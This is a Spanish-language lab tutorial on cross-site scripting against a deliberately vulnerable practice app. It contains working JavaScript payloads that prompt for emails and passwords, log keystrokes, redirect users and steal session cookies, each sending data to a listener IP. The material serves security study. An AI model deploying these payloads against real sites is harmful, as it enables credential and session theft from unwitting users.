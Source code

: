 Esta vulnerabilidad permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales. Para practicar vamos a utilizar el siguiente repositorio:
![[Pasted image 20230428095404.png]]
Nos clonamos el repositorio y entramos en la siguiente ruta:
![[Pasted image 20230428095644.png]]
Hacemos un make install y nos lo monta todo por el puerto 10007:
![[Pasted image 20230428095740.png]]
Y accedemos a este panel:
![[Pasted image 20230428095845.png]]
Por lo que nos creamos dos cuentas, el usuario mario con contraseña password1 y el usuario penguin con la contraseña 123123:
![[Pasted image 20230428095929.png]]
![[Pasted image 20230428095946.png]]

## XSS REFLECTED - HTML INJECTION

Una vez estamos dentro, tenemos la posibilidad de crear una nueva entrada en la web para que sea publicada:
![[Pasted image 20230428100041.png]]
Y por ejemplo si publicamos algo se queda reflejado:
![[Pasted image 20230428100147.png]]
Ahora vamos a crear otra nota tratando de inyectar código html probando por ejemplo con la etiqueta h1:
![[Pasted image 20230428100313.png]]
Y vemos que se aplica esta etiqueta:
![[Pasted image 20230428100355.png]]
## Scripts de JavaScript
Viendo lo anterior, podemos inyectar código javascript para establecer que la página web víctima ejecute cierto código y alterar así su comportamiento:
![[Pasted image 20230428100657.png]]
Y si ejecutamos esto, se nos abrirá un pop-up:
![[Pasted image 20230428100739.png]]
![[Pasted image 20230428100750.png]]
## INGENIERÍA SOCIAL EN XSS
Podemos inyectar código javascript que solicite al usuario víctima que inserte un correo, a través de este código:
```javascript
<script>
        var email = prompt("Introduce tu email: ");

        if (email == null || email == ""){
         alert("Hay que poner un correo válido");
        } else {
         fetch("http://192.168.0.57/" + email);
        }
</script>
```
![[Pasted image 20230428101528.png]]
Y ahora si accedemos al post, nos pide un email:
![[Pasted image 20230428101544.png]]
Y si nos ponemos en escucha con netcat, habremos recibido el correo del usuario:
![[Pasted image 20230428101652.png]]
No obstante, si quisiéramos también pedir la contraseña al usuario, podríamos usar este código:
```javascript
<script>
        var email = prompt("Introduce tu email: ");
        var password = prompt("Introduce tu contraseña: ");

        if (email == null || email == ""){
         alert("Hay que poner un correo válido");
        } else {
         fetch("http://192.168.0.57/" + email + password);
        }
</script>
```
Y nos pide el correo y después la contraseña:
![[Pasted image 20230428102059.png]]
![[Pasted image 20230428102136.png]]

## XSS PERSISTENTE

El payload se almacena en las bases de datos de la aplicación por medio de entradas que permanecen siempre en la página, como comentarios, foros, etc:

## Keylogger con javascript

Si queremos crear un keylogger para ir capturando las pulsaciones del teclado de un usuario, lo haría con el siguiente código
```javascript
<script>
        var k = "";
        document.onkeypress = function(e){
         e = e || window.event;
         k += e.key;
         var i = new Image();
         i.src = "http://192.168.0.32/" + k;
};
</script>
```
![[Pasted image 20230428102840.png]]
Y ahora si vamos al post llamado keylogger y escribimos en alguna parte, veremos como todo lo que se escriba se habrá registrado:
![[Pasted image 20230428102956.png]]
## Redirigir al Usuario a otra Web
También podemos redirigir al usuario a otra web de forma automática utilizando este código:
```javascript
<script>
window.location.href="https://google.es";
</script>
```
![[Pasted image 20230428103518.png]]
Y ahora si hacemos clic a este post publicado, nos llevará a google (o a la página phising correspondiente):
![[Pasted image 20230428103548.png]]
![[Pasted image 20230428103555.png]]
## Capturar Cookie de Sesión con XSS
Podemos crear un código javascript para que nos muestre la cookie de sesión del usuario. Por lo que primero tenemos que comprobar que dentro de los ajustes de la web, la cookie no se encuentre protegida, ya que debe aparecer de esta forma:
![[Pasted image 20230428104537.png]]
Y después tenemos que poner este código:
```javascript
<script>
   alert(document.cookie);
</script>
```
![[Pasted image 20230428104826.png]]
Y vemos la cookie de sesión (aunque de momento solo se le muestra al mismo usuario):
![[Pasted image 20230428104929.png]]
Para poder robar la cookie de inicio de sesión del usuario, necesitaremos primeroe este código:
```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.0.19/?cookie=' + document.cookie);
request.send();
```
![[Pasted image 20230428105423.png]]
Y con python si nos ponemos en escucha deberíamos de recibir la cookie de sesión:
![[Pasted image 20230428105738.png]]
